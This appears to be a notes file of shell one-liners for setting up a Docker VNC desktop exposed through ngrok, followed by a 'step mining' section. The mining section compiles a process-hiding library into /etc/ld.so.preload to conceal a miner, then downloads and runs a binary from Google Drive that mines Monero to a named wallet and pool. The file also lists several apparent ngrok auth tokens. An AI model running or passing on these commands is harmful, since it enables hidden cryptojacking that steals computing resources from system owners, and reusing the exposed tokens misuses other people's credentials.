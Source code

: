 # creat vps docker vnc : 
- install docker : apt install -y apt-transport-https ca-certificates curl software-properties-common && curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg && echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list > /dev/null && apt update && apt install -y docker-ce docker-ce-cli containerd.io && usermod -aG docker $USER && service docker restart
- docker run -it --rm -p 6080:80 -p 5900:5900 dorowu/ubuntu-desktop-lxde-vnc
- wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz && tar -xf ngrok-v3-stable-linux-amd64.tgz && ./ngrok config add-authtoken 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5
- ./ngrok http 6080
  
   token ngrok :
- 2TtAcvy5faRWDPlmnbt2tauuMfy_J8rCNerKtLqLeJqrMTGY
- 2TY9j0ZPVtJfGB3HQPVxoIAcKR6_2sqBzNTKDZnacRm9hJtFK
- 2U9omfblkr1JR4VhgmIQwk0XkaP_2MRDsYsLaWzj2ouhqVCaY
- 2UEc6WUEbjbA3JpjmWfem5IZFzK_6EyQFfMJ1amaocetmur7q
- 2UbN0YLLgdPR7xDmmkMPtaTMxRd_7YiSYjH3rcoXKt5goPE6Q
- 2eqK7m0aHI98zyKc5kutUVwk5xe_44hNpSjdL1HSGtftH5dso
- 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5
  
- step mining :
- hide miner no gcc: git clone https://github.com/cihuuy/libn && cd libn && apt install gcc -y && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
- hide miner wiht gcc: git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
  download and runing miner 2 core :
wget -O durex "https://drive.google.com/uc?export=download&id=1g9IoCBMXlA_K3GDNBwULac_N9FlK2_Ce" && chmod +x durex && ./durex -algo RandomX -coin XMR -wallet 86P42DaNTvmBmMLM4oL5kL6tVQVo9FfsnJDTqj6VU76whVzjMdMbMa7PV3SHAQuNySan44ToXVFn3gwFmqeDb58t1xqNVAB.x3 -pool1 158.69.251.105:4050 -cpuThreads 2
